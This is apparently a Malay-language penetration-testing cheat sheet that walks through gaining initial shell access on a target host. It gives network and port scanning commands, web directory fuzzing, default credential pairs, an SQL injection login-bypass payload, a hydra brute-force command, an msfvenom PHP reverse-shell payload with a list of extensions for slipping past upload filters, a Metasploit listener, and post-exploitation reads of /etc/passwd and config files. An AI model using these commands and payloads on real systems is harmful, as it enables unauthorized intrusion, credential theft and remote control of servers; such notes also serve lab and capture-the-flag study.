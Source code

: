 basic reconnaisance, semua dalam turutan.. ini step untuk dapatkan initial access (dapatkan shell)
## 1. cari IP target
`sudo netdiscover`

## 2. Scan port open
```bash
sudo nmap -p- --min-rate=1000 IP // scan dengan cepat, tp tak detail
sudo nmap -sC -sV -A -O IP // scan lambat, tapi detail
```

## 3. Cari vulnerable service
- result daripada nmap, google service punya version untuk cari public exploit
- buat untuk semua open port
- sometimes step ni tak dpt hasil
cth.
`port/80 http apache 2.3.4`

google: ```apache 2.3.4 exploit
	apache 2.3.4 vulnerability
	apache 2.3.4 exploit github```

## if port 80 open, do this
### 1. cari directory/file dalam webserver
```bash
ffuf -u "http://IP/FUZZ" -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -c -e .php,.txt,.html
```
### 2. kalau ada login, cuba buat ni
- login guna default credential
```bash
admin:admin
admin:password
root:root
admin:admin123
boleh google banyak lagi default credential
```
- test sql injection
```
username -> admin' or 1=1-- str
password -> admin
```
- try bruteforce
```bash
sudo hydra -l username -P /usr/share/wordlists/rockyou.txt IP http-post-form "/main/login.php:username=username&password=^PASS^:Invalid Password!"

ubah username jadi username yg betul, and ubah /main/login.php kepada file login yang betul (boleh tgok dkt url login).. also ubah IP
```
### 3. kalau ada upload file feature
- try upload .php file
  cara generate php file
```bash
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php

# IP kita and port kita.. biasa buat 4444
# nnti file tu akan ada dkt folder kita.. nak tahu folder mana tulis pwd
# then upload shell.php tu
```
- kalau .php tak berjaya, cuba rename file tukar extension jadi:
```
.php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar

# command rename -> mv shell.php shell.phtml
```
- kalau berjaya upload, run msfconsole
```bash
> msfconsole
> use exploit/multi/handler
> set LHOST IP-kita
> run
```
then ubah url supaya pergi /uploads/shell.php
- tengok msfconsole, kalau dapat connection tulis, `shell`

## Step lepas dapat shell
- check /etc/passwd file
- check /var/www/main/config.php file
- check /home directory
